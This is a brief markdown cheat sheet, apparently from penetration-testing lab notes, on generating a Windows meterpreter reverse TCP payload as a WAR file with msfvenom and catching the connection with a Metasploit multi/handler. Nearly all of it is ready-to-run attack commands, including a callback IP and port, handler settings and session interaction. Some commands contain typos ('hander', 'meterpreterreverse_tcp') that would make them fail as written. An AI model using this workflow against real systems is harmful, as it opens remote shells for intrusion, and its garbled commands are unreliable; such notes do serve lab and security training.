 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars

## Usage

### Getting a war payload

Create the payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war

Now start metasploit

	msfconsole

Use the handler that is gonna handle the reverse connection from the payload

	use exploit/multi/hander

Set the payload that we created with msfvenom

	set payload windows/x64/meterpreterreverse_tcp

Set the interfacte that the handler is gonna listen on waiting for the reverse connection

	set LHOST tun0

Set the port specified in the payload in msfvenom

	set LPORT 9001

Run the handler

	exploit -j

Now execute the war payload (by accessing the jsp inside) and we should have a connection.
When we have a session do

	sessions -i 1

To interact with it